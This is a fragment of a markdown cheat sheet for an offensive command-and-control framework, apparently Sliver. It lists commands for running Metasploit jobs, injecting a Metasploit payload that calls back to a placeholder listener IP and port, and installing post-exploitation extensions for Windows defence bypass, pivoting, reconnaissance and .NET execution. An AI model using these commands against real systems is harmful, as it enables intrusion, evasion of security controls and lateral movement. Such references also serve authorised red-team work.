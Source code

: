 ```
exploit -jz
```

### Inject Metasploit
```
msf --lhost <msf_ip> --lport <msf_port>
```

## Misc

### Install Extension From Local
```
extensions install /path/bof
```

### Install Extension Using Armory 
```
armory install windows-bypass
armory install windows-pivot
armory install situational-awareness
armory install .net-execute
armory install .net-pivot
armory install .net-recon
```

